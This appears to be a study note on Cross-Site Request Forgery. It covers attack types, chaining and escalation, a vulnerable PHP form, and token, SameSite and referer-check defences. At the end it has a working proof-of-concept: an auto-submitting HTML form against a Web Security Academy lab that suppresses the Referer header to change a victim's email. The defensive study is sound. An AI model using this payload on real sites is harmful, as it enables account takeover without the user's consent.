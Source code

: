 # CSRF (Cross-Site Request Forgery)

  

## What is CSRF?

  

**Cross-Site Request Forgery (CSRF)** is a web security vulnerability that allows an attacker to trick users into performing actions they did not intend to, typically without their knowledge. The attack occurs when a user is authenticated and logged into a trusted web application and is then forced to execute unwanted actions, such as submitting forms, changing settings, or making requests to the server, often with the user's authentication tokens.

  

- **Example**: Sending a request to transfer money, change an email address, or modify account details while the user is logged into the target site.

  

### How does CSRF work?

1. The victim is logged into a web application.

2. The attacker tricks the victim into sending a malicious request (through a link, image, or script).

3. The web application accepts the request as legitimate because the victim’s browser automatically sends authentication cookies.

### Why is CSRF dangerous?

If exploited, CSRF can allow unauthorized transactions, data exposure, or privilege escalation. Its impact is heightened in high-privilege accounts (e.g., admins).

  

## Types of CSRF Attacks

  

1. **GET-based CSRF**: Exploits actions that rely on GET requests, such as clicking a malicious link. These requests don't necessarily require user interaction (e.g., visiting a page).

  

2. **POST-based CSRF**: Exploits POST requests where data is submitted to perform an action. It often involves tricking the user into submitting a form that sends harmful data.

  

3. **Login CSRF**: Forces a user to log in with attacker-supplied credentials, which can alter the victim's session state and allow attackers to access the victim’s account or data.  
  

4. **Logout CSRF**: Logs the user out by making an unauthorized logout request, often leading to frustration or setting up future attacks.

  

## Chaining CSRF with Other Vulnerabilities

  

Chaining involves combining CSRF with other vulnerabilities to increase impact. Some common chains include:

- **CSRF + XSS (Cross-Site Scripting)**: Using an XSS vulnerability to execute a CSRF attack by injecting malicious scripts that execute unauthorized actions.

- **CSRF + IDOR (Insecure Direct Object Reference)**: If IDOR allows attackers to manipulate resources belonging to other users, CSRF can exploit this weakness to perform actions on behalf of other users.

- **CSRF + Privilege Escalation**: If a CSRF attack targets administrative functionalities, the attacker could potentially escalate their privileges or access sensitive data.

  

## Escalating the Risk of CSRF

  

To escalate the risk of a CSRF attack:

1. **Target High-Privilege Accounts**: Attacks aimed at admin or superuser accounts can cause severe damage (e.g., altering site configurations, deleting user data).

2. **Sensitive Operations**: Exploiting CSRF in actions like financial transactions, password changes, or deleting resources makes the attack more impactful.

  

3. **Lack of CSRF Tokens**: Applications not using anti-CSRF tokens or other mitigation strategies are more vulnerable. If the application has weak defenses, attackers can easily bypass protections.

  

4. **Multi-Step Actions**: If a CSRF attack can be chained with other vulnerabilities, such as XSS or SQL injection, it can lead to full account compromise, data theft, or privilege escalation.

  

## Vulnerable Code Example

  

```php

// A vulnerable form that lacks CSRF protection

<form action="/change-email" method="POST">

  <input type="email" name="newEmail" placeholder="New Email">

  <button type="submit">Change Email</button>

</form>

```

  

In this code, there is no protection against CSRF attacks. An attacker could trick the user into submitting a request to change their email address without their consent.

  

## CSRF Token Mitigation

  

To mitigate CSRF, the server can generate a unique CSRF token for each user session and embed it in every form or request that requires protection. The server then verifies that the token is present and valid before processing the request.

  

### Mitigated Code Example with CSRF Token

  

```php

// Generating and embedding a CSRF token in the form

session_start();

$token = bin2hex(random_bytes(32));

$_SESSION['csrf_token'] = $token;

?>

  

<form action="/change-email" method="POST">

  <input type="email" name="newEmail" placeholder="New Email">

  <input type="hidden" name="csrf_token" value="<?php echo $token; ?>">

  <button type="submit">Change Email</button>

</form>

  

<?php

// Validating the CSRF token on the server

if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {

    die('Invalid CSRF token');

}

  

// Process the email change if the token is valid

$newEmail = $_POST['newEmail'];

// Update email logic here...

?>

```

  

### How CSRF Tokens are Stored and Validated

  

- **Token Generation**: The CSRF token is typically generated using a secure random function (e.g., `random_bytes()`) and stored in the user session (`$_SESSION`).

- **Token Storage**: The server stores the generated token in the user’s session and embeds the same token in the form as a hidden input.

- **Token Validation**: When the form is submitted, the server compares the token received in the POST request (`$_POST['csrf_token']`) with the token stored in the session (`$_SESSION['csrf_token']`). If they match, the request is considered legitimate.

### Key Considerations:

- **Token Expiry**: Tokens can be set to expire after a specific period or upon session termination for additional security.

- **Unique per Request**: Ideally, CSRF tokens should be unique per form/request, not just per session.

- **Regeneration**: Upon certain actions like login/logout, CSRF tokens should be regenerated.

  

## Additional CSRF Mitigation Techniques

  

- **SameSite Cookies**: Configure the `SameSite` attribute on cookies to prevent them from being sent in cross-site requests.

- **Referer and Origin Checks**: Validate the `Referer` or `Origin` headers to ensure the request originates from a trusted domain.

- **Re-authentication for Sensitive Actions**: For highly sensitive actions (like changing a password), require users to re-authenticate to further reduce CSRF risks.



































```
<html>
<head>
    <meta name="referrer" content="never">
</head>
<body>
    <form action="https://0a5e0026030b4bec819ea24400d600f5.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="tst@gmail.com" />
        <input type="submit" value="Submit request" />
    </form>
    <script>
        history.pushState('', '', '/?https://0a5e0026030b4bec819ea24400d600f5.web-security-academy.net/my-account?id=wiener');
        document.forms[0].submit();
    </script>
</body>
</html>

``` 
a sample of poc of csrf that checks for refereal header 